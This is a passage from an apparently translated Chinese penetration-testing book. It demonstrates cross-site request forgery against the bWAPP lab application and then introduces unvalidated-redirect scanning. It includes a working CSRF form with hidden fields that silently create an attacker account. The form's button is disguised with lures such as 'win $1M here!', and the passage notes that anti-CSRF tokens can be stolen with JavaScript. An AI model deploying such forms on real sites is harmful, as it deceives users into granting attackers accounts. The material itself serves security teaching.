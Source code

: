 ```
        <p><label for="secret">Secret:</label><br />
        <input type="text" id="secret" name="secret" size="40"></p>        
    </td></tr>
    <tr><td>
        <p><label for="mail_activation">E-mail activation:</label>
        <input type="checkbox" id="mail_activation" name="mail_activation" value="">
    </td></tr>
    </table>
    <button type="submit" name="action" value="create">Create</button>
</form>
```

现在，为了特别隐蔽，我们需要确保没有人接收到这个页面理解我们让他们做的事情。诀窍是隐藏字段并利用隐藏的属性将我们的请求通过他们的好奇检查。我可以通过修改源代码来消除所有标签并隐藏所有用户输入，除了一个`submit`按钮，同时在用户不知道的情况下嵌入我想要的凭证：

```
<form action="http://172.16.30.129/bWAPP/user_extra.php" method="GET">
        <input type="hidden" id="login" name="login" value="test1"></p>
        <input type="hidden" id="email" name="email" value="test1@example.com"></p>
        <input type="hidden" id="password" name="password" value="dude"></p>
        <input type="hidden" id="password_conf" name="password_conf" value="dude"></p>
        <input type="hidden" id="secret" name="secret" size="40" value="Hello Hackers"></p>
        <input type="hidden" id="mail_activation" name="mail_activation" value="">
        <button type="submit" name="action" value="create">Log In Here</button>
</form>
```

这将产生一个页面，当受害者加载时，该页面看起来像下面的屏幕截图所示。我们可以让那个按钮看起来像任何东西（**`win $1M here!`****`Verify Email`****`Register for seminar`**都是可行的选项）。如果我们愿意，这甚至可以作为链接嵌入到图片中；我们的目标是设计一些外观纯真、与用户预期行为相关的东西。

![](https://www.packtpub.com/graphics/9781784395070/graphics/B03918_10_12.png)

简单的登录页面，对吗？

当用户点击此按钮时，我们将看到，拥有帐户创建权限的可怜的、经过身份验证的受害者刚刚为我们创建了一个帐户，如下面的屏幕截图所示！这里的关键是要知道需要哪些字段。OSIT 可以提供帮助，因为新员工的说明和帮助门户通常会在几乎没有保护的情况下提供这些信息。我们还可以根据组织内的其他趋势做出一些有根据的猜测。

![](https://www.packtpub.com/graphics/9781784395070/graphics/B03918_10_13-1.png)

帐户已创建，谢谢！

应该注意的是，CSRF 是黑客和防御者之间非常活跃的猫捉老鼠创新领域。反 CSRF 令牌已成为保护用户的一种手段；但是，正如我们在本书中看到的所有漏洞一样，执行往往是最薄弱的环节。在使用反 CSRF 令牌的情况下，黑客（和我们）可以尝试在我们的 CSRF 页面中使用 JavaScript 来捕获客户端拥有的任何反 CSRF 令牌，并将其滑入我们的 GET 或 POST 请求中，以确保我们逃避这种保护。更好的反 CSRF 实现将通过实现时间和上下文驱动的令牌来防止这种情况，但如果它们不这样做，则有相当大的可能性绕过这些控制。**  **### 相信我，我知道路！

对于如此之长的名称，未经验证的重定向和转发漏洞使网站暴露于可笑的小规模黑客攻击中，使得攻击者能够将用户重定向到恶意或至少是无意的网站。我们可以使用自动化工具（如 Burp 或 ZAP）扫描站点，这将通过使用完整站点路径或长重定向响应的页面等赠品（这两种工具都可以在该站点上看到，如下面的屏幕截图所示）来挖掘潜力或者只是尝试在浏览器中指定 URL 的扩展或修改：

![](https://www.packtpub.com/graphics/9781784395070/graphics/B03918_10_14.png)

Burp 套件扫描显示未验证的重定向和转发漏洞

当您将鼠标悬停在页面上的链接上时，大多数网站仍然允许查看 URL，下面的屏幕截图中显示了此处*的相关链接*。这是在 OSIT 工作期间直观发现此类风险的一种简单方法。

![](https://www.packtpub.com/graphics/9781784395070/graphics/B03918_10_15.png)
